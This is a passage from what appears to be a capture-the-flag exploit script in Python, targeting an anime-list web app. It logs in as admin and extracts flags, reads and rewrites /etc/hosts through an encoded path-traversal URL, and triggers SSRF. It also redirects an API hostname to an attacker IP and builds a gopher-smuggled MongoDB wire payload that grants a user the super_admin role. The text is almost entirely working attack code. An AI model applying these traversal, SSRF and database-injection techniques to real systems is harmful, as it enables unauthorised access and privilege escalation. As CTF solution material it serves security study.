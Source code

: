 ```python
if os.path.exists(hash_file):
  os.remove(hash_file)

print(f"[!] Loging in as admin: { admin_username }")
sess.post(url + '/login', data={'username': admin_username, 'password': admin_password})
time.sleep(1)
print(f"[!] Cache busting and getting first flag")
res = sess.get(url + f'/user/{admin_username.lower()}/edit')
flag1 = re.findall(f'{flag_prefix}{% raw %}{{.*?}}{% endraw %}', res.text)[0]
print(f"[+] GOT FLAG 1: {flag1}")

############## PART 2 ##############
print("[!] ############## PART 2 ##############")
print("[!] Reading /etc/hosts")
res = sess.get(url + '/admin/archive/..%2fetc%2fhosts')
etc_hosts_content = res.text.split("</textarea>")[0].split(">")[-1]
print(etc_hosts_content)
print("[!] Adding api.jikan.moe to /etc/hosts as 127.0.0.1")
new_etc_hosts_content = etc_hosts_content + "127.0.0.1\tapi.jikan.moe\n"
sess.post(url + '/admin/archive/..%2fetc%2fhosts', data={'content': new_etc_hosts_content})
print("[!] Triggering SSRF")
sess.get(url + '/studio/..%2f..%2fadmin%2fflag%23')
print("[!] Reading FLAG 2 from cache")
res = sess.get(url + '/admin/cache')
flag2 = re.findall(f'{flag_prefix}{% raw %}{{.*?}}{% endraw %}', res.text)[0]
print(f"[+] GOT FLAG 2: {flag2}")

############## PART 3 ##############
print("[!] ############## PART 3 ##############")
print(f"[!] Adding api.jikan.moe to /etc/hosts as {attacker_ip}")
newer_etc_hosts_content = etc_hosts_content + f"{attacker_ip}\tapi.jikan.moe\n"
sess.post(url + '/admin/archive/..%2fetc%2fhosts', data={'content': newer_etc_hosts_content})

def pack_size(section):
  return list(struct.pack("<i", section))

def encode(data):
	packet = ""
	for i in range(int(len(data) / 2)):
		packet += "%" + data[2*i:2*(i+1)]
	return packet

def gen_mongowire_payload(username):
  doc = {
    "update": "users",
    "$db": "MAL",
    "updates": [{
      "q": {
        "username": username
      },
      "u": {
        "$set": {
          "role": "super_admin"
        }
      }
    }]
  }
  b = unhexlify('0000000000000000DD0700000000000000') + bson.dumps(doc)
  b = bytes(pack_size(len(b) + 4)) + b
  return quote(b)

def start_server(gopher_payload):
  print("[+] Started Flask server")
```
